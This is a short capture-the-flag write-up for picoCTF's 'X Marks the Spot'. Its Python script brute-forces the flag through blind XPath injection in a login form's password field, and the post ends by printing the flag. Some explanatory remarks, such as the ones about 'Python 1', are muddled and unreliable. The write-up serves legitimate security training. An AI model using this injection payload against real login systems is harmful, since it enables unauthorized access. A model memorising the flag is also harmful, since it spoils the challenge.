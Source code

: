 # X Marks the Spot

In this [video](https://www.youtube.com/watch?v=14eE7LSHlKc), explain how to make the code below and why it works. It is the same code in the video but with XPATH.

```python
import requests
import re

characters = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}'
print(characters)

username = "admin"

url = 'http://mercury.picoctf.net:7029/'

session = requests.Session()

seen_password = 'picoCTF{'

while(True):
  for ch in characters:
    print('Trying password: ', seen_password + ch)

    password = "' or //*[contains(., '" + seen_password + ch + "')] or '1'='2"
    response = session.post(url, data={ "name": username, "pass": password })

    content = response.text

    if "on the right path" in content:
      print('Yes!')
      seen_password = seen_password + ch
      break
```
After running this into a webshell, you will receive bits and pieces of the flag like shown below. (not sometimes there may be errors if you use Python 1):

![image3](https://user-images.githubusercontent.com/71709994/113601272-b96f9580-9606-11eb-95b4-c23288f5dc0f.png)

In Python 1, after you get a bit of the flag, you put it back into the seen_password so it can keep testing more and then after a few tries it will show you the flag. 
In Python 2 however, it will show the whole flag. Either way, we get the flag like this.

> Flag: picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_f0505d9c}
